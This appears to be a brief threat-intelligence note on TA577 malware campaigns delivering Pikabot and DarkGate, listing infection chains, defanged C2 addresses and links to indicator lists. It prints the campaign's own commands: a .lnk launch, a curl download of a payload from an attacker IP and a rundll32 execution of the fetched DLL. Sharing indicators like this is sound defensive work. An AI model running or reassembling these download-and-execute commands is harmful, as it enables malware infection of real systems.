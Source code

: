 
#Pikabot- #TA577 - url > .zip > .lnk > curl > .dll

cmd /c TZZ.pdf.lnk

curl http://207.246.78.]68/6kQh/T7t -o UL.log

rundll32 UL.dll, HUF_inc_var

c2's
167.86.96.]3:2222
38.242.240.]28:1194
167.86.81.]87:2222
79.141.175.]96:2078
209.126.9.]47:2078

IOC's
https://github.com/pr0xylife/Pikabot/blob/main/Pikabot_03.10.2023.txt

### url > .zip > .lnk > curl > .vbs > curl > au3 > .exe

[#DarkGate](https://twitter.com/hashtag/DarkGate?src=hashtag_click) - [#TA577](https://twitter.com/hashtag/TA577?src=hashtag_click) - url > .zip > .lnk > curl > .vbs > curl > au3 > .exe
https://twitter.com/Cryptolaemus1/status/1708869147688419507


![proxy everywhere](/assets/images/proxy3.png)
